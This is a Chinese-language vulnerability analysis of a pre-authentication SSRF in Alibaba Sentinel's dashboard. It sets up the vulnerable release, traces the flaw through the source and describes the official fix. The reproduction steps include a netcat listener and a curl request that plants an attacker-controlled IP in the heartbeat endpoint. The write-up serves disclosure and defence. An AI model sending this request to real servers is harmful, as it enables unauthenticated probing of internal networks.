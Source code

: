 0x00 漏洞简介
=========

`Alibaba`开源限流熔断组件`Sentinel`是阿里巴巴发行的面向分布式服务架构的高可用防护开源组件，主要以流量为切入点，从流量控制、熔断降级、系统自适应保护等多个维度来帮助用户保障微服务的稳定性。

> github源码地址及更多介绍：[](https://github.com/alibaba/Sentinel/)<https://github.com/alibaba/Sentinel/>

2021年11月，`SecCoder Security Lab`的`threedr3am`发现了`Sentinel`中的管控平台`sentinel-dashboard`存在认证前SSRF漏洞，恶意用户无需认证即可通过该接口进行SSRF攻击。

> report地址：[](https://github.com/alibaba/Sentinel/issues/2451)<https://github.com/alibaba/Sentinel/issues/2451>

0x01 环境搭建及复现
============

拉取源码：[](https://github.com/alibaba/Sentinel.git)<https://github.com/alibaba/Sentinel.git>

导入idea，切换branch到`release-1.8`

```bash
git checkout release-1.8
```

运行`Sentinel/sentinel-dashboard/src/main/java/com/alibaba/csp/sentinel/dashboard/DashboardApplication.java`即可启动服务后台

![start.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f7c22607f438884155008c88ddcbda9533845450.png)

访问http://your-ip:8080

![login.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e345fe95729faeb39fc56a10d662e9fc1d7774a7.png)

1. 本地监听端口12345，`nc -lvvp 12345`
2. 构造url发起攻击，`curl -XGET '<http://your-ip:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=your-ip:12345%23&port=0'`

![curl.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ae1c24189f0faf5b2a1b015454812507ee4472d2.png)

nc接收到了请求

![nc.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-38d556238dc07a315d17fbab91bd0d102dd53f97.png)

0x02 漏洞分析
=========

在`src/main/java/com/alibaba/csp/sentinel/dashboard/controller/MachineRegistryController.java`的`receiveHeartBeat`方法打断点调试

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c781792a63d395887b84f547648b8498bb6927ad.png)

发送payload跟进

![1.5.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c8bbca34e7ddaf555bbd82dfee6311369d8bdd0f.png)

进入`receiveHeartBeat`方法后，对端口进行了检验，需要正整数，而对ip进行了 **非空** 和 **长度(小于128)** 的检验后便传入`machineInfo`，跟进`addMachine`方法

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-045c203135b93b521b6db7df09db7c5bc3680bf4.png)

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-41ca8db52c3348142f098cfc34e516781c7c1c5c.png)

继续步入

![2.5.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-aad6114be5d77211a43585b8f847cb9ee069d3cb.png)

仅仅是把传入的app等字符取出，没有做其他检验就返回给`machineInfo`

至于`machineInfo`的值在何处被调用，需要看`src/main/java/com/alibaba/csp/sentinel/dashboard/metric/MetricFetcher.java`  
`start`方法在构造方法中被调用

![4.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a39bce549bbafc0f2a64d84c61bcee6944967452.png)

跟进`start`方法中的`fetchAllApp`方法

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e1e10cc611f4f163d6fb8d9b1208e33e00fd3a05.png)

该函数获取所有app对象放进list中，再把list传入app遍历调用`doFetchAppMetric`

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-b4c367a00fed61f67fbb49c1975190255d94b6d3.png)

进入到`fetchOnce`，对app的信息做判断

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-08ec33df716f00e95f8d8d41c188b9709e318dae.png)

`machineInfo`对象的值在这里取出

![8.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-4a9541b2a17a901f8bc1bff4cba0d257a666c440.png)

之后拼接到url中，发出get请求，同时可以构造`#`注释后面拼接的内容。  
整个过程中没有有效的参数过滤和校验，可以构造特殊参数进行ssrf利用。

0x03 修复
=======

对比最新版本代码，官方修复方式是在`src/main/java/com/alibaba/csp/sentinel/dashboard/controller/MachineRegistryController.java`中调用`IPAddressUtil`工具类对IP地址增加合法检验，只有合法的IPv4和v6地址可以正确传入

![fix.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-da44560276158f08d8b6433ae1ec861f6fcff2d4.png)

0x04 参考
=======

- [](https://github.com/alibaba/Sentinel/issues/2451)<https://github.com/alibaba/Sentinel/issues/2451>